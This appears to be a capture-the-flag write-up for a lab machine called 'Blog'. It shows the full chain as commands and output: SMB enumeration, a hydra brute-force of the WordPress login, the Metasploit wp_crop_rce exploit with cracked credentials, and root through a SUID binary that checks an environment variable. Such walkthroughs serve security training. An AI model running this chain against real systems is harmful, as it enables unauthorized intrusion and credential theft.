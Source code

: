 # Blog

### Tools

- nmap
- enum4linux
- steghide
- gobuster
- wpscan
- hydra
- ltrace
- metasploit
- smbclient

### Write-up

First off, scan the avaliables services on the server

```sh
nmap $IP -sV
```

Output:

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Found out that it is running a samba server, so I tried enum4linux:

```sh
enum4linux $IP
```

Output:

```
[+] Attempting to map shares on $IP

//$IP/print$   Mapping: DENIED Listing: N/A Writing: N/A
//$IP/BillySMB Mapping: OK Listing: OK Writing: N/A
```

BillySMB has Mapping and Listing enabled, so I connected:

```sh
smbclient //$IP/BillySMB
```

Output:

```sh
smb: \> get Alice-White-Rabbit.jpg
getting file \Alice-White-Rabbit.jpg of size 33378 as Alice-White-Rabbit.jpg (20.0 KiloBytes/sec) (average 20.1 KiloBytes/sec)
smb: \> get tswift.mp4
getting file \tswift.mp4 of size 1236733 as tswift.mp4 (273.8 KiloBytes/sec) (average 166.2 KiloBytes/sec)
smb: \> get check-this.png
getting file \check-this.png of size 3082 as check-this.png (2.3 KiloBytes/sec) (average 142.3 KiloBytes/sec)
```

Got some files. One of them was a jpg, so I tried steghide:

```sh
steghide extract -sf Alice-White-Rabbit.jpg
```

Output:

```
Enter passphrase:
wrote extracted data to "rabbit_hole.txt".
```

Got a file that isn't that useful:

```sh
cat rabbit_hole.txt
```

Output:

```
You've found yourself in a rabbit hole, friend.
```

Tried Gobuster and searched for the `robots.txt`:

```sh
gobuster dir -u $IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css
```

Output:

```
/login                (Status: 302) [Size: 0] [--> http://blog.thm/wp-login.php]
```

Found that its a wordpress website, so I scanned the wordpress website using wpscan:

```sh
wpscan --url $IP --enumerate u
```

Output:

```
[+] bjoel
[+] kwheel
```

Got two users so I tried hydra with two of them:

```sh
hydra -t 64 -L users.txt -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```

Got password for `kwheel`, and then used an exploit from metasploit framework:

```sh
msfcosole
```

Console:

```
msf6 > search wordpress 5.0

Matching Modules
================

   #  Name                                                     Disclosure Date  Rank       Check  Description
   -  ----                                                     ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce                           2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
   1  exploit/unix/webapp/wp_property_upload_exec              2012-03-26       excellent  Yes    WordPress WP-Property PHP File Upload Vulnerability
   2  exploit/multi/http/wp_plugin_fma_shortcode_unauth_rce    2023-05-31       excellent  Yes    Wordpress File Manager Advanced Shortcode 2.3.2 - Unauthenticated Remote Code Execution through shortcode
   3  auxiliary/scanner/http/wp_woocommerce_payments_add_user  2023-03-22       normal     Yes    Wordpress Plugin WooCommerce Payments Unauthenticated Admin Creation
   4  auxiliary/scanner/http/wp_registrationmagic_sqli         2022-01-23       normal     Yes    Wordpress RegistrationMagic task_ids Authenticated SQLi

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_crop_rce) > set USERNAME kwheel
USERNAME => kwheel
msf6 exploit(multi/http/wp_crop_rce) > set PASSWORD cutiepie1
PASSWORD => cutiepie1
msf6 exploit(multi/http/wp_crop_rce) > set RHOSTS $IP
RHOSTS => $IP
msf6 exploit(multi/http/wp_crop_rce) > run
```

Then got a shell, searched for SUID binaries:

```sh
find / -perm -u=s -user root -type f 2>/dev/null
```

Output:

```
/usr/sbin/checker
```

Executed with ltrace:

```sh
ltrace /usr/sbin/checker
```

Output:

```
getenv("admin")                                  = nil
puts("Not an Admin")                             = 13
Not an Admin
```

Exported env admin:

```sh
export admin=1; /usr/sbin/checker
```

Then got root:

```sh
id
```

Output:

```
uid=0(root) gid=33(www-data) groups=33(www-data)
```
